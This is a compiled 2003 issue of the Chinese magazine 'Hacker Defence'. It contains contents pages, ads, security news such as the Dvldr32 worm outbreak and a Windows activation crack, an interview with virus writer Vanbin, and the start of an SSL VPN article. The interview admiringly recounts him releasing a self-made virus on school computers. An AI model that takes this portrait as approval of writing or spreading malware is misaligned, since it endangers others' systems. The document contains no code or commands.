# 黑客防线2003合订本（二）第一部分

---

## 黑客防线 2 重型版 2003

## 第三季题合订本

### 抓住罪恶的黑手

——论计算机取证技术

计算机犯罪目前是越来越严重了，如何有效地遏制这类犯罪，不得不面对的问题。为了有效惩治和防范计算机犯罪，各国纷纷加快这方面的立法，但仅靠法律条款还是远远解决不了问题的，我们还必须依靠计算机取证技术。这也正是我们今天要谈的主题。

### 网管之家

- 来自网站的反击
- Windows 2000 账户密码的攻击方法以及对抗措施
- 防范局域网内的服务器被入侵

## 案例分析

- Web 攻击案例分析
- 分析 ICMP 发动的攻击
- IIS 5.0 WebDAV 远程溢出漏洞全接触

## 编程解析

- 浅析 Windows 2000/XP 服务与后门技术
- 开发自己的搜索引擎
- 非法获取密码的原理及其防范

### E-T 安全方案

- Microsoft 最新远程命令隐藏的
- 小用户后门的安全性探讨

8CD + 书  
26.00 元

## CHINA INTERNATIONAL INFORMATION SECURITY EXHIBITION 2003

### 第五届中国国际计算机信息系统安全展览会

21-23 OCTOBER 2003  
2003 年 10 月 21 日—23 日

### BEIJING EXHIBITION CENTRE, BEIJING, CHINA

中国·北京展览馆

- Approved by
  - Ministry of Public Security of P. R. China
  - Ministry of Science and Technology of P. R. China
- Organized by
  - Public Information Network Security Inspection Bureau, Ministry of Public Security of P. R. China
  - Science and Technology Information Institute of Ministry of Public Security, P. R. China
  - Public Technology Service Division, The State Information Centre, P. R. China
  - The 3rd Research Institute of Ministry of Public Security, P. R. China
- Co-organized by
  - Commission of Information Security of China Information Industry Association
  - Science & Technology Information Institute of Ministry of Public Security of P. R. China
  - Reed Exhibitions Ltd.

- 批准单位
  - 中国公安部
  - 中国科技部
- 主办单位
  - 中国公安部信息网络安全监察局
  - 中国公安部科学技术信息研究所
  - 国家信息中心信息研究与服务中心
  - 中国公安部第三研究所
- 协办单位
  - 中国信息协会信息安全委员会
  - 中国公安部科学技术信息研究所

Reed Exhibitions  
励展博览集团  
www.infosec-china.com

### 商业回执

- □ 我希望参加 2003 年中国计算机信息系统安全展览会。请为我预定展位 _____ 平方米。
- □ 我希望得到更多有关研讨会的信息。
- □ 我希望参观展览会。

| 字段 | 内容 |
|---|---|
| 姓名 |  |
| 职位 |  |
| 公司 |  |
| 地址 |  |
| 电话 |  |
| 传真 |  |
| 电子信箱 |  |
| 网址 |  |

请传真励展博览集团  
联系人：朱莉小姐  
地址：北京市建国门内大街 8 号中粮广场 B 座 920 室　邮编：100005  
电话：86 10 8511 5630-236　传真：86 10 6526 0940　电子信箱：lisazhu@reedexpo.com.cn

## CONTENT

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑：王宇、刘峰、苏樱、劲刀狂舞、SQL、Heavyd
- 采编部主任：张馨
- 美编部：王凤
- 技术部：徐生震
- 发行部：杨贵兰
- 邮购部：王英

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局 008 信箱
- 邮政编码：100080
- 协办单位：北京宽海科技开发中心

- 技术支持电话：62141445-8004
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker-defence.com
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清 律师
- 电话：13701229137
- 传真：(010) 84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘 + 说明书）

### 卷首语

## 业界动态

- 新闻动态

## 新品推荐

- 华唐 R 网络安全防御系统……4
- 安奈特 Claymore AT-9800 系列多层交换机……4
- 全新的 SGI ALTIX 3000……4
- McAfee WebShield e1000 增效大企业网关杀毒……4
- NetScreen-5000 让大型企业有备无患……4

## 名家专访

- 禁地游戏
- ——访“中国病毒公社”创始人 Vanbin……5

## 专题企划

- 网络安全的新秀——SSL VPN……7

### 网管之家

- 从安全性的角度预览 Windows Server 2003……10

现在，使用 Windows 2000 已经不再是什么稀奇的事了，而 Windows XP 也已经带给了大家全新的感受和视觉冲击。不过似乎个人版的 Windows XP 所带的服务少了点，喜欢使用 Server 版的朋友总觉得少了点什么，现在微软又出了 Windows Server 2003，不知道读者们是否对这个新到的贵客有所了解，本文作者通过切实的使用和体会，给大家介绍一些关于它的新资讯。

- 活动目录服务中 WINS 安全过渡部署……14
- 活动目录使用不完全手册……17
- 基于链路层的伪随机序列的安全认证算法……22
- 给明文协议加把锁……25

- 警钟长鸣
- ——事关 Google 与 MDB 数据库的下载……27

## 漏洞公告

## 案例分析

- SQL Injection 攻击技术（下）……30
- 匿名（垃圾）邮件的根源
  - ——网络上几乎所有服务器都不可避免的“漏洞”……33
- Web 攻击实例分析……35

本文主要以一篇来自 sanctuminc 网站的关于 Web 应用安全性文章提供的实例为基础，以作者认为比较容易理解的形式叙述，并通过这些实例来分析网络上 Web 服务器的安全性，文中列举的实例非常简单，稍有些 HTML 代码知识的朋友都可以一目了然。

- 由校园网看网络安全现况……37
- 利用邮件头反入侵
  - ——入侵与反追踪的技巧……39

## 病毒前线

- 最新病毒公告……42
- 关于未知脚本病毒的判断和查杀……43

## 编程解析

- Perl 编写密码破解工具 DIY……45
- 嵌入式木马设计理论及实现（下）……47
- 通过钩子实现定时锁定系统（下）……51
- 从编程角度分析传奇木马……52
- 基于 S/B 模式的 Access 数据库系统
  - 安全隐患及入侵防范……54

### 安全方案

- 计算机局域网的信息安全保密解决方案……57
- 第三只眼看 Intranet……59
- 个人网上银行安全问题初谈……61

### 编读互动

定价：35.00 元

## 内容提要：

《黑客防线精华本 2002》主要内容由《黑客防线》2002 年全年内容浓缩而成，经过编辑重新加工，按照文章内容和梯度进行了详细分类：全书内容通俗易懂，涵盖面广，突出实用，更加便于读者阅读、学习和研究。书中重点涉及了人物、专题、系统安全、服务器安全、数据库安全、网站安全、网管心得、案例、编程、工具、破解、病毒分析、网友交流等 20 个方面。

本书附赠 2 张配套光盘。光盘中包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文档、系统最新补丁；更有价值的是收录了《黑客防线》原创全程攻防录像演示和 2001 年《黑客防线》精华本的电子版。

### 邮购信息

| 名称 | 规格 | 价格 |
|---|---|---|
| 黑客防线秘笈（珍藏版） | 1CD | 28.00 元/期 |
| 黑客防线 2 到 7 期（珍藏版） | 1CD | 28.00 元/期 |
| 黑客防线 8－9 期（珍藏版） | 2CD | 28.00 元/期 |
| 黑客防线 9 上、9 下、10 上期 | 1CD | 6.80 元/期 |
| 黑客防线 11－28 期 | 1CD | 10.00 元/期 |
| 黑客防线之攻防工具详解 | 1CD | 23.80 元/本 |
| 黑客防线精华本 2001 | 2CD | 29.00 元/本 |
| 中国黑客内幕（6 折） | 1CD | 15.00 元/本 |
| 局域网组建维护 300 问 | 1CD | 19.80 元/本 |
| 编程入门 | 2CD | 25.00 元/本 |
| 趣味编程 100 例 | 1CD | 16.00 元/本 |
| 服务器 DIY | 1CD | 23.80 元/本 |
| ASP 轻松建站全攻略 | 1CD | 19.80 元/本 |

汇款地址：北京市中关村邮局 008 信箱  
邮政编码：100080  
收款人：《黑客防线》邮购部  
热线电话：(010)62141446，62141445-8011  
E-mail：yougoubu@hacker.com.cn

### 致力于企业级网络防病毒的安全专家

为您提供一流的防病毒产品、全方位的解决方案、周到的咨询培训服务

- 北信源 VRV 杀毒 Windows NT/2000 网络版
- 北信源 VRV 防病毒网关
- 北信源 VRV-NOTES 杀毒
- 北信源 VRV-NOVELL 网络版
- 北信源 VRV-UNIX 网络版
- 北信源 VRV-网吧网络版
- 北信源速拨联网拨号监控系统
- 北信源网络运行保障平台

**北京北信源自动化技术有限公司**

地址：北京市海淀区中关村南大街 34 号中关村科技发展大厦 C 座 16 层  
电话：010-62140485/86/87  
邮编：100081  
上海分公司地址：上海市北京西路 1399 号建京大厦 12 层  
电话：021-62894111

### 北信源 VRV 杀毒

### 网络安全寄语

2002 年是全球信息安全界极不平凡的一年。经历了“9·11”恐怖主义事件、美国经济快速下滑、阿富汗反恐战争、著名跨国大公司纷纷裁员、全球股市大幅下挫、大型企业集团会计丑闻不断、跨国投资大幅萎缩和世界油价急剧上扬等一系列冲击，全球 IT 产业在泡沫破灭中一片萧瑟。在如此复杂多变的国际背景下，国际信息安全产业却一枝独秀，逆势上扬。

北京海信数码科技有限公司总经理　刘建伟

去年美国发生的“9·11”恐怖事件彻底改变了全球对安全问题的思考方式，继美国“亡羊补牢”式的强化安全之后，各国均不同程度地在管理、技术和法规等方面加大了对信息安全的投入，并积极寻求国际合作，有效地推动了全球信息安全产业的发展，网络与信息安全的综合防范与管理对策正在形成之中。

在国内，刚刚闭幕的党的十六大，进一步明确了信息化在我国经济建设中的重要地位，强调信息化是我国加快工业化和现代化的必然选择。优先发展信息产业，走以信息化推动工业化的发展战略，必然对信息安全的发展带来巨大的市场需求、巨大的市场空间和良好的市场环境，为我国创造出一个新的发展机遇。

信息安全产业是一个新兴的产业，市场的发育并不成熟，目前正处于烽烟四起、群雄逐鹿中原的局面，各安全厂商都在使尽浑身解数，力争在这并不大的锅里分得一碗粥；因此竞争异常残酷而激烈。我认为，最终鹿死谁手，还要看产品的质量和服务。众厂商之间除了“公平竞争”之外，还应该加强合作。海信数码是一个企业，更是一项事业。我坚信，只要海信数码人发扬团队精神、创业精神、敬业精神和实干精神，就一定会在激烈的市场竞争中立于不败之地。海信数码作为国内知名的网络安全厂商，愿意与各位同行一道，为促进我国信息安全产业的发展做出自己的贡献。

### 最新微软视窗 Windows XP 中文版被俄黑客破解

俄罗斯黑客推出最新 Windows 破解器，声称可以破解目前所有版本的 Windows 激活保护，有网友亲自用零售版的 Windows XP 简体中文版试验了一下，并且安装了 Windows XP SP1，结果的确如该补丁所说顺利激活。

本次俄罗斯黑客独辟蹊径，采用电话激活的方式，终于将 Windows 激活保护的所有方式都破解了，虽然没能作出完美的电话激活 Keygen（注册机），但是也是相当不容易了。

### NetScreen 携手赛迪集团举办网络安全研讨会

由 NetScreen 公司主办，赛迪集团协办的 2003 网络安全研讨会于 3 月 13 日在北京昆仑饭店隆重举行。由此拉开 2003 中国网络安全年的序幕。

NetScreen Technologies, Inc. 是国际知名的整合式网络安全解决方案提供商，提供多种关键的网络安全技术，如 VPN、防火墙和入侵防护等。此次于 3 月中旬在北京举行的网络安全论坛活动，专程邀请了来自美国总部的该公司创始人兼工程副总裁邓峰先生亲临现场，并就全球网络安全技术趋势发表重要演讲。

本次论坛上，政府相关部门领导及行业专家也将到会，共同探讨当今企业所面临的安全挑战及应对策略。同时，与会者还将聆听并观摩来自全球顶级安全专家及技术顾问所进行的现场演示，并现场解答疑问。

## 科技武装部队，美达海神“数据救生仓”大显身手

目前，国内知名企业——美达科技公司采用其独有的专利技术——三防系统，即一套贯穿于电路设计到产品外壳的防护技术，保证“海神”数据救生仓随盘的整个电路部分不会受水、静电、污泥、灰尘的伤害。该产品的外壳表面附着一层柔性材料，其封装采用“微波分子重组”技术，这种技术使得随盘外壳浑然一体，大大提升了防碰撞和抗摔能力。在美达海神“数据救生仓”随盘的电子电路及芯片部分，全部附着一层具有卓越防水性能的军工材料。

### Google 公司的 Blogger 网络工具发现严重安全漏洞

据悉，著名老牌黑客 Adrian Lamo 在今年 1 月份发现了 Pyra Labs 公司的 Blogger 网络留言工具存在着 3 到 4 个程度不同的安全漏洞。其中至少有一个漏洞能够让黑客成功地侵入网上留言系统，这样黑客就有可能假冒他人之名在论坛上发表文章。而使用该留言论坛的多是一些记者、知识分子和名流，如果上述安全漏洞得不到及时修补，它所造成的负面影响将不堪设想。在著名老黑客 Adrian Lamo 的善意提醒下，Pyra Labs 公司已经完成了对自己的 Blogger 网络留言工具所存在的安全漏洞进行修补的各项工作。Pyra Labs 公司目前已经属于著名的网络搜索服务提供商 Google 公司。

## “口令蠕虫”突袭我国互联网 个别骨干网出现拥塞

从 3 月 8 日开始，一种新型的破坏力很强的网络蠕虫病毒——“口令蠕虫”病毒突然袭击我国互联网。目前国内已经有个别骨干互联网出现明显拥塞，个别局域网近于瘫痪，数以万计的国内服务器被感染并自动与境外服务器进行连接。中国计算机网络应急处理协调中心负责人 9 日声明，“口令蠕虫”通过一个名为 Dvldr32.exe 的可执行程序，实施发包进行网络感染操作，主要对象是网络服务器和 Windows 2000/XP 等个人终端用户。

与以往利用操作系统或应用系统的技术漏洞进行攻击不同的是，“口令蠕虫”所利用的是网上用户对口令等管理的弱点进行攻击。这一病毒有 3 个特点：一是自带一份口令字典，对网上主机超级用户口令进行基于字典的猜测；二是一旦猜测口令成功，这种蠕虫病毒将植入 7 个与远程控制和传播相关的程序，立即主动向国外的几个特定服务器联系，并可被远程控制；三是该蠕虫扫描流量极大，容易造成网络严重拥塞。

1. 立即更换系统超级用户口令，加大口令强度，缩短口令更新周期，加强口令的管理；
2. 注意检查计算机中的文件，保护好重要信息和个人隐私；
3. 立即查看系统进程，如果有 Dvldr32.exe 运行，系统即被感染，应立即结束该进程，并删除 Dvldr32.exe 等相应的蠕虫文件和注册表中的蠕虫信息，再重新启动系统即可。

### 黑客盗窃了美国德克萨斯大学 5 万多份个人数据

位于美国奥斯汀的德克萨斯大学 3 月初遭到黑客攻击，其信息技木副总裁 Updegrove 发表声明说，这次在线攻击者使用了数百万个随机产生的社会保险号码，以此向校方数据库请求记录，结果有 5.52 万个匹配的记录。除了社会保险号码之外，这些数据还包括姓名、地址和电子邮件地址。

校方的声明说，学校已经与美国司法部、美国国家保密局和其他执法机构取得了联系，目前正在集中精力确认进入系统的破坏者并且找回被偷窃的数据。

声明还说，迄今还没有证据表明被偷窃的数据在攻击者电脑的范围之外被散发，但是数据偷窃将影响学校过去和现在的学生、教师和员工，还有工作申请者。

### TI 新手机 CPU 可防毒防黑

德州仪器公司 3 月初透露，该公司最近推出了新款智能电话处理器——TCS2600 芯片组，它具备基于硬件的安全特性，提高了防范病毒的能力，并改善了移动商务（m-commerce）以及金融交易的安全性。

德仪称，这款处理器芯片组是专为 GPRS 智能手机设计，它基于 TI multicore OMAP730 智能电话处理器，它与其他 TI multicore OMAP 系列处理器一样，支持嵌入式 Linux 操作系统，也支持微软的智能手机和 Pocket PC 手机版操作系统、Symbian OS 及 Palm OS。

新处理器芯片组中还包括该公司的 TWL3016 模拟基带处理器以及直接转换、四频单芯片射频收发器。据说 TWL3016 还把电源管理和高保真音频子系统集成到一个芯片上，它的直接转换技术集成了众多外部过滤设备，如 VCO 和电压调节器。

### Snort 软件有漏洞

#### 黑客能绕过入侵探测功能

Sourcefire 安全公司 3 月 3 日称，一种名为“Snort”的入侵探测系统软件有一个安全漏洞，能让黑客关闭这个软件程序。这个安全漏洞出现在该软件的“规范化”功能中。这个程序通过把某种网络行为与恶意代码进行比较来识别攻击。然而，入侵者为了躲避侦察常常把攻击分为几个部分进行。Snort 软件把这几个部分合并在一起，对其进行“规范化”分析，这样，这个程序就可以对每个级别的攻击使用一个单一的签名。

Sourcefire 安全公司总裁 Marty Roesch 称，该公司现在提供这个安全漏洞的补丁，从下载情况看，现在已经有人立即使用这个补丁了。Snort 软件开发网站可以找到这些补丁。

### DoS 攻击造成 CN 域名解析失常

2 月 22 日，CNNIC 负责解析的 CN 域名数据库出现少数域名无法解析的异常情况，网民在访问某些 CN 域名时出现无法访问的情况。该事件经查明，是大量非正常访问造成系统拥塞，致使域名解析数据生成不完全，使得域名访问出现问题。CNNIC 技术人员调查发现，该非正常访问来自某固定 IP 地址段，从该 IP 地址对 CNNIC 注册数据库发来巨量域名注册查询信息，造成数据库负荷持续加大。经检索亚太地区互联网信息中心（APNIC）数据库，该地址段属于某软件公司所有。目前，CNNIC 已经查封了该 IP 地址段，并且封存有关数据记录，向国家网络安全有关部门报告了此次事件。

据 CNNIC 技术人员分析，该软件公司很可能是为了大量获取 CNNIC 域名注册数据库中的用户注册信息进行商业活动，自行编写了查询软件，对 CNNIC 域名数据库中的域名注册信息进行查询，该查询采用了按字母顺序的“穷举”查询方式，并且可能同时打开多个查询进程，所以才会对数据库造成如此大的影响。据专家介绍，发送大量的非正常服务请求是 DoS（拒绝服务）攻击的一种方式。

### 黑客捣乱让网络游戏玩家买单

目前一些网络游戏的网站在预防和维护上存在某些问题，网站经常受到黑客的袭击。通常黑客非法复制了武器装备在网上兜售，而普通玩家由于购买了这些装备，导致网络游戏服务商对购买黑客提供的非法武器的玩家注销账号。

一些业内人士认为，现在很多在线游戏都会被一些网络高手捣乱，而如果玩家购买了非法武器的确也是一种作弊行为，但网站因为这样就注销账号是不合理的。你可以扣玩家的分，但不该直接判死刑，因为他们有游戏的权利。该人士还提到，网络游戏到现在为止仍不是很规范，游戏规则还只是厂方在定，所以玩家在选择游戏时要慎重。

### QQ 经常出现“非法操作”

#### 腾讯紧急发布补丁版

2 月中旬，不少网友反映说 QQ 和一些即时通信软件经常出现“非法操作”，而让 QQ 等软件死掉的情况。具体现象为，当收到某一个好友发过来的一段代码的时候，自己的 QQ 就出现非法操作的提示，然后就必须重启 QQ，才能正常使用。经测试确实有这样的情况发生，而且危害性非常大，给用户带来诸多不便。

腾讯公司介绍说，他们在 18 日接到网友反映，并于 18 日当天晚些时段发布补丁版本 QQ2000C Build 0825 patch，解决了这一问题。该 BUG 基于微软标准控件的漏洞产生，但仅限于好友间故意发送此种格式消息，才能引起 QQ 异常退出，并且对系统和 QQ 软件本身不造成数据安全问题。重新登录 QQ 即可继续使用，建议用户可以访问腾讯网站下载栏目，下载安装补丁版本，以避免相关问题的发生。

### 华堂 R 网络安全防御系统

上海华堂网络有限公司在防火墙产品上拥有先进的技术及多年的市场实践经验。公司已经顺利通过了 ISO9001-2000 标准化认证，强调质量管理贯彻“以市场为导向、用户至上；以技术为核心、持续创新”的质量方针。

华堂 R 网络安全防御系统是从第三代防火墙技术上发展起来的，它综合了数据包过滤、应用代理和地址转换等多种防御技术，集成了多种网络安全技术，如用户认证、加密、虚拟专用网、防病毒等，是国内首家通过国家主管机关的四个部门：公安部、安全部、国家保密局和中办机要局认可的安全产品，得到了包括工程院何德全院士在内的专家领导的高度评价。

上海华堂网络有限公司将于 4～5 月期间，于上海、浙江、杭州、安徽四省市举办“华堂 R 网络安全防御系统”全系列产品线的发布会。届时上海华堂网络有限公司将推出国内最全最完善的防火墙及 VPN 产品线。

### 安奈特 Claymore AT-9800 系列多层交换机

针对千兆多层交换机市场领域对性能、可靠性、灵活性等方面兼顾的需求，安奈特新推出 AT-9800 系列多层交换机。该交换机可提供 32G 背板吞吐能力，并能以 2400 万包/秒的速率线速处理二、三、四层交换，可广泛适用于需要高密度的千兆端口汇聚，满足对语音、数据、图像的传输质量有着严格要求的行业用户。AT-9800 系列交换机可实现从物理层到第 4 层以上的带宽流量控制，可以针对 TCP 负载、路由负载、HTTP 负载和 SSL 负载进行均衡处理。

安奈特 AT-9800 交换机具有先进便捷的易用性，它集成了与控制管理相关的丰富特性：内置 DHCP Server，支持 TFTP，可以帮助用户灵活备份/上传配置文件；先进的预警触发功能结合 E-mail 客户端软件，可以帮助网络管理人员对系统进行实时、严格的监控和管理。

### 全新的 SGI Altix 3000

SGI 公布了其最新的 SGI® Altix™ 3000 系列服务器和超级集群产品，这是第一款高性能、基于 Linux 环境的产品，可扩展为支持上百个处理器并全局共享内存的产品，该产品在高性能系统上超越了其他竞争对手。

SGI Altix 3000 系统完美地融合了 SGI 的超级计算基础架构、Intel® Itanium™ 2 处理器以及 Linux 操作系统，在性能和性价比上超越了传统的集群、基于微处理器的高端服务器以及基于矢量的超级计算机。

最近的测试结果显示，SGI 强大的 NUMAflex™ 基础架构和 Intel 最先进的微处理器在开放资源计算环境中的组合，在几乎每一个指标上都表现出极高的性价比。SGI Altix 3000 在处理器和系统性能、内存和 I/O 吞吐量以及计算量密集的应用程序性能表现中都取得了骄人的成绩。

### McAfee WebShield e1000 增效大企业网关杀毒

美国网络联盟公司（NAI）近日推出最新 McAfee WebShield e1000 网关防病毒解决方案，同时还推出了用于 McAfee WebShield e250 和 e500 的升级软件。McAfee WebShield e1000 是专为大型企业设计的，比其他竞争对手的同类网关产品每小时可多扫描近 1 倍的数据，是一种性能比较高的网关防护解决方案。McAfee WebShield 产品是一个反病毒和内容管理软件以及高性能硬件设备的集成解决方案，可提供主动的一线网关防护，快速解决重大病毒及安全问题。

WebShield 的所有产品均可对小型企业普遍使用的 SMTP、HTTP、FTP 和 POP3 通讯进行扫描，并可检测恶意代码及内容。用于 McAfee WebShield 产品（包括 e250 和 e500）的升级软件，可通过下载状态屏、透明桥接和路由以及内置负载共享功能来实施更简单的 HTTP 保护。

### NetScreen-5000 让大型企业有备无患

NetScreen-5000 产品系列是定制化、高性能的安全系统，包括 2 个插槽的 NetScreen-5200 型号及 4 个插槽的 NetScreen-5400 型号，可为大型企业、运营商及数据中心网络客户提供前所未有的卓越性能。以 NetScreen 的第三代安全 ASIC 技术及分布式系统架构为基础，NetScreen-5000 产品系列可为网络安全系统提供胜人一等的扩展性和灵活性。

NetScreen-5000 系统架构包括多层处理模块，这些处理模块可集成操作，以提供一系列安全网关接口及性能配置。此系统的模块包括具多种端口配置能力的安全处理模块，及负责整体系统操控的管理模块；这些模块可以以不同的方法组合，根据客户的实际网络环境进行个性化的系统配置。NetScreen-5000 系列利用交换光纤进行数据交换，并具备独立的多重总线通道来管理信息；因此在高负荷的环境下，亦能发挥高扩展的性能。

### 禁地游侠

#### ——访“中国病毒公社”创始人 Vanbin

文／乱世天使

到了数字化的今天，传说中的幽灵终于复活在了我们的现实生活中。他们隐蔽狡猾，无孔不入，变幻无穷，转瞬间就可以将你的多年心血化为灰烬，他们就是电脑病毒！是谁有那么大法力召唤出这些恐怖幽灵的呢？病毒的高复杂性和高技术性决定它只能是智者的游戏，一个 15 岁的少年，一次偶然的经历，让他踏入这块奇幻的禁地……

#### 十年磨一剑，霜刃未曾试

15 岁是天真好奇的年龄，Vanbin 和其他的少年一样生来就对新事物充满好奇。自从他家搬回一台当时相当先进的 386 计算机后，Vanbin 从此便一头栽进了一个新的世界。在他的心目中最崇拜的人物不再是那些所谓伟大的政客和英雄，而是能在键盘上创造世界的人。从开始起他心中便只有一个目标——写程序，写出像史诗般宏伟、像贝多芬交响曲般完美的让人惊叹的程序。在他的努力下，很快便对汇编语言和 C 语言有了相当的了解。那时学习的资料相对很少，怎么才能了解别人程序的精髓和奥秘呢？和很多著名程序员的选择一样，Vanbin 想起了唯一的途径——反汇编。反汇编是十分神奇的，但又有相当难度，接触过的人知道，在当时没有好的工具的情况下，为了跟踪一段小小的有用代码，往往要花去以天甚至是月为单位的时间。他没有因此退缩，从此 call、jmp 便构成了他生活的循环程序式。

一次偶然的机会，Vanbin 的计算机感染了当时很出名的 dirII 病毒，这是一种很有创新意义的病毒。它那 512 字节的轻盈身材轻松绕过了号称可以让病毒彻底消亡的防病毒卡，间接导致了病毒界的革命。对计算机相当精通的 Vanbin，原本可以轻松应付，一杀了之，但他没有那么做，好奇心促使他毫不犹豫地留下这段恶意代码，以便他进一步分析程序的行为。三天后，一个新的变种病毒从他手里诞生了：加强 300% 的感染率，无特征的变形加密代码，自创的内存驻留转移形式……到了最后一步，他犹豫了，他发现自己正徘徊于危险的边缘，然而年轻的他最终没能抵挡诱惑，打开了潘多拉的魔盒，将自己的杰作偷偷输入了学校电脑。又一个三天后，学校的电脑全部锁死，看着几位计算机专业老师束手无策那无助的表情，Vanbin 很是得意，他知道自己成功了。得意总有忘形的时候，从他悄悄地在死党面前炫耀卖弄的那一天起，他便不再属于这座学校。

1997 年初著名的江民炸弹爆发，这是一种十分狠毒的逻辑炸弹。由于利用微软 MS-DOS 程序上的漏洞改写了硬盘分区表，中弹后硬盘会被锁死进入死循环，甚至软盘和光驱都无法引导。新学校的一百多台计算机再次无一幸免，心存愧疚的他，终于找到了赎罪的好机会。面对这个重型的逻辑炸弹，Vanbin 感到了前所未有的挑战。通过一个字节一个字节地分析硬盘扇区结构，24 小时内他终于成功重写了分区，重新激活了计算机。然后 Vanbin 以最快的速度和各大杀毒软件公司几乎同步地推出了免费修复工具 unbome（就是当时广为流传的 Debomes 3.0），这次漂亮的翻身仗使他洗刷了埋藏在心里多年的阴影。

#### 山外有山，人外有人

每一个热衷于计算机病毒的编写者，就像很多文人一样，或多或少总是对自己的智商或者技术有种毫不掩饰的傲慢。Vanbin 也不例外，能将计算机老师玩弄于股掌之间的他，自认为可以匹敌天下。

一次与中国病毒界另一个传奇人物老江的碰面，让他明白，自己只不过是沧海一粟。2000 年，各大反病毒公司为了抢夺杀毒行业上亿元的巨大利润使出浑身解数，不惜投入巨资做广告，有的号称可以杀掉 50000 种病毒，有的号称引进了国外新的杀毒引擎，甚至有的号称可以防止未来病毒，一时间风起云涌煞是热闹。天生叛逆的 Vanbin，直看不惯这些噱头，祭出了 softice 和 win32asm 这两样神器，对杀毒软件一番肢解，试图寻找出漏洞以便绕过防火墙。没想到的是，跟踪失败！这是很少见的错误，显然杀毒软件已做了很稳固的保护。一个月后，不甘心罢休的 Vanbin 仍百思不得其解。当他将分析代码贴在论坛后的不到两个小时，一个叫“老人家”的神秘 ID 给他指点了这些代码的加密原理，使他豁然开朗。经过几次交流后，Vanbin 才得知对方就是在 CRACKER（破解）方面赫赫有名后来隐匿的老江，更重要的是他也看清楚了自己的差距。从此 Vanbin 一直恭敬地称老江为“高人”。

#### 金鳞岂是池中物，一遇风云便化龙

在 19 岁那年，Vanbin 凭着自己的实力，已经被邀请成为了 CSDN 汇编版的版主。CSDN 藏龙卧虎，本来就是高手云集之地，能在里面做上版主更是实力的体现。有个网友故意挑战他，要求他写出如何在 Windows 2000 的系统下进入 RING0 级的方法。众所周知，Windows NT/2000 为实现其可靠性，严格将系统划分为内核模式与用户模式，进入 RING0 的复杂程度和技术性远远超过 Windows 9x，各类中断门与调用门甚至连 VxD 都不能使用，在这种情况下，想绕进 RING0 实在是难于登天。Vanbin 通过对 Windows 2000 的内核反汇编后发现了规则方法（笔者不再详述，详细规则请参看《Windows NT/2000 下 Ring0 代码实现》一文），并将它公布了出来。接下去不到两个月，中国便诞生了第一只 made in China 的 Windows 2000 型病毒。

2001 年，Vanbin 根据自己多年的开发经验，写下了《Windows 98 病毒制作原理—完整》，这在中国病毒界引起了轰动，是目前公认的研究病毒的必读教程之一。（笔者则认为，这是 Vanbin 最大的不应该之处，这种行为的不负责任会间接导致将中国新病毒发生率推向新的高峰。Vanbin 事后也曾表示，这违背了他当初的原意。）随后，Vanbin 继续他的创作，推出了《PE 引入表修改详解》《反汇编 DLL 文件中的 HOOK API》《引导区中写程序》等一系列有较高技术性的论文。从此他声名鹊起，网友们送了他一个响亮的绰号：猎手。

#### 后记

研究计算机病毒的只有两种人，也许你已经猜到：病毒编写者和反病毒工作者。然而这样的说法并不准确，按 Vanbin 自己的话来说，他就是善良与邪恶的双重体。晚上，冥思苦想编写攻击性病毒的他，一觉醒来便成为了朋友们心中的英雄。由于他的技术的确出众，远近的亲朋好友甚至他家附近的计算机公司都有邀请他解决难题。今年，Vanbin 以优厚的待遇被邀请加入某家著名的反病毒公司。Vanbin 却拒绝了，谁也不知道确切的原因。也许 Vanbin 是想在这片禁地继续他的游戏，演绎属于他的传奇。

去年 Vanbin 和其他 Vxer（病毒研究爱好者）成立了目前中国民间最大的病毒研究组织 CVC（中国病毒公社），短短几个月内他们的网站的访问量直冲几十万人次。他说将来有朝一日 CVC 会成为中国的 29A 组织。这个组织目前的核心成员不过十几个人，但都是病毒研究爱好者中精英中的精英，每一个加入的成员都要经过严格考察。也许你会认为这群人是数字时代的恐怖分子，但他们只是为了同一个单纯的爱好而来，这可以从他组织公约看出——

> “不将病毒散播，不破坏他人的数据，不主动入侵他人电脑，忠心爱国！”

当笔者写下此文时，中、美、日和欧洲等大国又相继传出遭到黑客恶性攻击事件，国内大部分服务器陷入瘫痪，直接损失达几十亿美元。经查实是一种攻击 SQL-Server 漏洞的“2003 蠕虫王”病毒所为。病毒和反病毒是无声无息而永无休止的电子战争。希望《黑客防线》的各位读者在新的一年中能更加努力地学好安全知识，拿起科学技术这柄巨剑，捍卫我们热爱着的家园。

现有的远程访问 VPN 服务主要分为 IPSec VPN 和 SSL VPN。IPSec 客户端程序是用来提供远程接入 VPN 的。然而，IPSec 的复杂性遭到人们的批评：用户需要 IPSec 客户软件，还要正确配置，数字签名使网络更难管理；基于 SSL 的 VPN 为 IPSec VPN 提供了一种较为简单的选择。它不需要专门的软件，任何一种标准 Web 浏览器都支持 SSL，用户可以管理客户的证书而不必借助于复杂的数字签名。

## 网络安全的新秀

## SSL VPN

北京信安世纪信息安全技术有限公司 周舜

随着互联网和网络经济的发展，企业规模不断扩大，客户分布日益广泛，合作伙伴逐渐增多，传统企业网基于固定地点的专线连接方式，已难以适应现代企业的需求。于是企业在自身网络的灵活性、安全性、经济性、扩展性等方面提出了更高的要求。虚拟专用网（VPN）以其独具特色的优势，为企业提供了一种低成本的网络基础设施，并增加了企业网络功能，扩大了其专用网的范围，赢得了越来越多企业的青睐，令企业可以较少地关注网络的运行与维护，更多地致力于企业商业目标的实现。

VPN（Virtual Private Network，虚拟专用网）最大的吸引力在哪里？是价格。据估算，如果企业放弃租用专线而采用 VPN，其整个网络的成本可节约 21%～45%；至于那些以电话拨号方式联网存取数据的公司，采用 VPN 则可以节约通信成本 50%～80%。因此，VPN 带给用户的主要是成本的节省：以 Internet 作为隧道与企业内部专用网络相连，通信费用大幅度降低；其次企业可以节省购买和维护通信设备的费用。

#### 何为 VPN

